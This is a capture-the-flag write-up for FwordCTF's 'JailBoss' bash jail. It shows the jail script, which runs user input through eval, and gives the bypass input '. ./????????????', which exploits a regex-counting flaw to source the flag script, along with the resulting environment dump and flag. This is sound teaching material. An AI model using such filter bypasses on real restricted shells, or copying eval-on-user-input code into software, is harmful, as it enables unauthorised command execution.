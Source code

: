 # JailBoss
You are provided with an SSH account to server `ssh -p 2222 ctf@jailboss.fword.wtf`, and 2 files.

## `taskFword.sh`
```sh
#!/bin/bash
export FLAG="FwordCTF{REDACTED}"
echo "A useless script for a useless SysAdmin"
```

## `jail.sh`
```sh
#!/bin/bash
figlet "BASH JAIL x Fword"
echo "Welcome! Kudos to Anis_Boss Senpai"
function a(){
/usr/bin/env
}
export -f a
function calculSlash(){
	echo $1|grep -o "/"|wc -l
}
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
function calculA(){
        echo $1|grep -o "a"|wc -l
}

while true;do
read -p ">> " input ;
if echo -n "$input"| grep -v -E "^(\.|\/| |\?|a)*$" ;then
        echo "No No not that easy "
else
	pts=$(calculPoint $input)
	slash=$(calculSlash $input)
	nbA=$(calculA $input)
	if [[ $pts -gt 2 || $slash -gt 1 || $nbA -gt 1 ]];then
		echo "That's Too much"
	else
		eval "$input"
	fi
fi
done
```

When you connect to remote server you are greeted with

```
 _____                       _ 
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|
                               
ctf@jailboss.fword.wtf's password: 

DISCLAIMER: Please don't abuse the server or you will get banned !

Author: Kahla, Contact me for any problems; GL & HF

 ____    _    ____  _   _       _   _    ___ _            
| __ )  / \  / ___|| | | |     | | / \  |_ _| |     __  __
|  _ \ / _ \ \___ \| |_| |  _  | |/ _ \  | || |     \ \/ /
| |_) / ___ \ ___) |  _  | | |_| / ___ \ | || |___   >  < 
|____/_/   \_\____/|_| |_|  \___/_/   \_\___|_____| /_/\_\
                                                          
 _____                       _ 
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|
                               
Welcome! Kudos to Anis_Boss Senpai
>> 
```

And you can input commands.
We can assume that `jail.sh` is ran after connecting to server and that `taskFword.sh` is probably in the same directory.

## Method
1. Find a way to execute `taskFword.sh` to load flag to ENV
2. Call a() to execute /usr/bin/env (where already loaded flag resides)

## The script
We can see that the script asks for input.
```sh
read -p ">> " input ;
```

Then script checks if out input consists only of certain characters `.` `/` `:space:` `?` `a`
Those are only allowed characters.
```sh
if echo -n "$input"| grep -v -E "^(\.|\/| |\?|a)*$" ;then
```

Then we use defined functions
```sh
function calculSlash(){
	echo $1|grep -o "/"|wc -l
}
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
function calculA(){
	echo $1|grep -o "a"|wc -l
}
```

to find out number of appereances of characters `/` `.` `a`
Notice how the script is not checking counts of `:space:` or `?`
```sh
pts=$(calculPoint $input)
slash=$(calculSlash $input)
nbA=$(calculA $input)
```

Then we check number of appereances.
We can you maximum of 2x`.`, 1x`/` and 1x`a`
```sh
if [[ $pts -gt 2 || $slash -gt 1 || $nbA -gt 1 ]];then
```

If the condition is satisfied, script calls `eval` with our input.
This is a dangerous builtin command that shouldn't be used with user input.
We can potentionaly run "any" command we want with this
```sh
eval "$input"
```

## Exploit
How can we execute a command only with these characters `.` `/` `:space:` `?` `a`
We can't do `./taskFword.sh` because there are banned characters.
What we can do is use regex symbol `?` which is a substitute for a single character.
If you don't understand regex read about it. (You have probably used commands like `rm *`, `*` is a regex symbol meaning 'everything').

So we can try:
`./????????????`
which can resolve to
`./taskFword.sh`

Here is a catch.
When scripts evaluates function
```sh
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
```
with our input `./????????????` it checks for occurence of `.` which in regex means 'any character'. So the function 'returns' count `14` since we used 14 characters as our input, which stops us from evaluating our input since we are allowed to use 2 **dots** (`.`).
How can we solve this?

The solution is in
```sh
pts=$(calculPoint $input)
```
and respective
```sh
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
```

The function only evaluates the first argument `$1` from our input (which was our entire input string so far). But we can use `:space:` to divide our input into 2 words. First word can be `.` which evaluates to count `1` since we only used 1 character and second word can be our payload `./????????????`.

Together
`. ./????????????`

This input successfuly satisfies all conditions. And bash interpreter evaluates first `.` as **dot command** (command that evaluates commands in the current execution context) and then executes the scripts that loads the FLAG into our ENVIROMENT.

## In action
```
>> . ./????????????
A useless script for a useless SysAdmin
```

Then we can simply invoke function a() to print our ENVIROMENT
```
>> a
SHELL=/opt/jail.sh
PWD=/home/ctf
LOGNAME=ctf
MOTD_SHOWN=pam
HOME=/home/ctf/
LANG=en_US.UTF-8
FLAG=FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}
TERM=xterm-256color
USER=ctf
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
SSH_TTY=/dev/pts/2
BASH_FUNC_a%%=() {  /usr/bin/env
}
_=/usr/bin/env
```

## The Flag
**FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}**
